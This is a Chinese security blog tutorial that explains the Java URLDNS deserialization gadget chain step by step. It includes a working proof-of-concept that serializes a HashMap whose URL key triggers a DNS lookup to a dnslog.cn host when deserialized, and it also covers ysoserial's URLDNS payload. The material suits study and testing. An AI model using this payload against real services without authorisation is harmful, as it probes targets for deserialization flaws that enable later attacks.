Java安全之URLDNS链分析 前言 今天来复习一下URLDNS这条链，水一篇文章吧。也弥补了Java安全系列的入门必学的一个利用链的文章的空白。URLDNS链本身不能执行命令，多用于构造 DNS 操作的 payload，它被广泛用于演示和测试 Java 序列化的安全性问题。
Java反序列化 我们先来学一个简单的序列化和反序列化的demo
这里主要是写了一个可以序列化的Person类，其中包含了两个属性，分别是name和age。
在主函数中，我们先实例化一个对象person，然后调用serialize将其进行序列化，并且输出为person.bin，紧接着调用deserialize将person.bin文件进行反序列化为一个deserializedPerson对象，然后通过调用get方法的方式获取其属性值进行输出。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 package com.garck3h.Javasecure;import java.io.*;public class SerializeDemo { public static void main (String[] args) { Person person = new Person ("Alice" , 25 ); serialize(person, "person.bin" ); Person deserializedPerson = deserialize("person.bin" ); System.out.println("Name: " + deserializedPerson.getName()); System.out.println("Age: " + deserializedPerson.getAge()); } private static void serialize (Object object, String fileName) { try (FileOutputStream fos = new FileOutputStream (fileName); ObjectOutputStream oos = new ObjectOutputStream (fos)) { oos.writeObject(object); System.out.println("Object serialized to " + fileName); } catch (IOException e) { e.printStackTrace(); } } private static Person deserialize (String fileName) { try (FileInputStream fis = new FileInputStream (fileName); ObjectInputStream ois = new ObjectInputStream (fis)) { return (Person) ois.readObject(); } catch (IOException | ClassNotFoundException e) { e.printStackTrace(); } return null ; } private static class Person implements Serializable { private String name; private int age; public Person (String name, int age) { this .name = name; this .age = age; } public String getName () { return name; } public int getAge () { return age; } } }

URLDNS 1 2 3 4 5 6 7 8 9 利用链: HashMap.readObject(ObjectInputStream in) HashMap.putVal() HashMap -> hash() URL -> hashCode() URLStreamHandler -> hashCode() URLStreamHandler -> getHostAddress() URL -> getHostAddress() InetAddress -> getByName()
首先，我们来看一下HashMap，HashMap是实现了Map<K,V>, Cloneable 和 Serializable 接口；意味着实现它的类可以被序列化。

然后我们来看到HashMap的readObject。这是重写了readObject，主要进行了读取序列化数据、校验参数、创建哈希表等；从而实现可以确保在反序列化后，HashMap 对象正确地包含之前序列化的键值对。这里我们重点看后面的hash(key)

跟进 hash ()，可以看到，该方法接收一个 key 参数，这里主要实现计算键的哈希值，这个参数可以是任意类型的对象。

继续跟进去到了hashCode，返回对象的哈希码

在进行Java开发的过程当中会有很多类会直接或间接调用到hashCode()这个方法。我们点一下左边的按钮可以看到我这个版本的jdk里面大约有1175个方法重写了hashCode。当然我们这里可以直接看到URL类也是重写了hashCode。所以只要能够从前面的HashMap的readObject进入到 hash 以及参数可控，那么我们就可以利用了。

下面看一下URL重写的hashcode；声明一个整型变量 hashCode，并初始化为 -1；然后进行条件判断 (hashCode != -1)，判断是否已经计算过哈希码。如果哈希码等于 -1，表示还未计算过哈希码，则调用 handler.hashCode(this) 方法，传入当前对象作为参数，计算对象的哈希码。

我们跟进到handler.hashCode；实现根据url对象的协议、主机、文件、端口和引用等属性，计算出一个唯一的哈希码作为对象的标识。重点看到353行调⽤ getHostAddress ⽅法，这个是生成主机部分的哈希码；继续跟进

在getHostAddress方法中，这里实现获取URL 对象的主机地址对应的 InetAddress 对象。如果没有缓存，会进行一次 DNS 解析来获取主机地址，并将结果进行缓存。这样可以减少重复的 DNS 解析开销，提高性能。

这时整体的思路就有了，首先是实例化一个 java.net.url对象，然后调用put传入给hashMap对象。然后再传入一个非-1的值作为参数，这样做是为了确保 HashMap 的插入操作不会触发DNS解析。最后将hashCode 字段的值设置为 -1，以使得在执行利用链时能够触发请求，也就是确保能调用执行handler.hashCode函数。

最终写出的一个demo
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 package com.garck3h.Javasecure;import java.io.*;import java.lang.reflect.Field;import java.net.URL;import java.util.HashMap;public class demo { public static void main (String[] args) throws Exception { HashMap hashMap = new HashMap (); URL url = new URL ("http://cm1b9l.dnslog.cn" ); Field hashCodeField = url.getClass().getDeclaredField("hashCode" ); hashCodeField.setAccessible(true ); hashCodeField.set(url, 0 ); hashMap.put(url, null ); hashCodeField.set(url,-1 ); ObjectOutputStream oos = new ObjectOutputStream (new FileOutputStream (new File ("ser.bin" ))); oos.writeObject(hashMap); oos.close(); System.out.println("序列化成功" ); ObjectInputStream oosin = new ObjectInputStream (new FileInputStream ("ser.bin" )); oosin.readObject(); oosin.close(); System.out.println("反序列化成功" ); } }
执行之后，最近收到了DNS解析的请求

Ysoserial.URLDNS 先是在主类GeneratePayload；获取指定的根据命令行参数获取 payload 的类型和要执行的命令。使用 Utils.getPayloadClass(payloadType) 方法获取与 payload 类型对应的 payload 类

我们来看到URLDNS类；实现了 ObjectPayload 接口的 URLDNS 类，用于生成一个包含指定 URL 的 HashMap 对象作为 payload

然后调用PayloadRunner.run；在PayloadRunner.run可以进行序列化，序列化好的结果则为payload

参考 https://mp.weixin.qq.com/s/nMkV__cVYarjnTYsNPKMGg
http://blog.m1kael.cn/index.php/archives/449/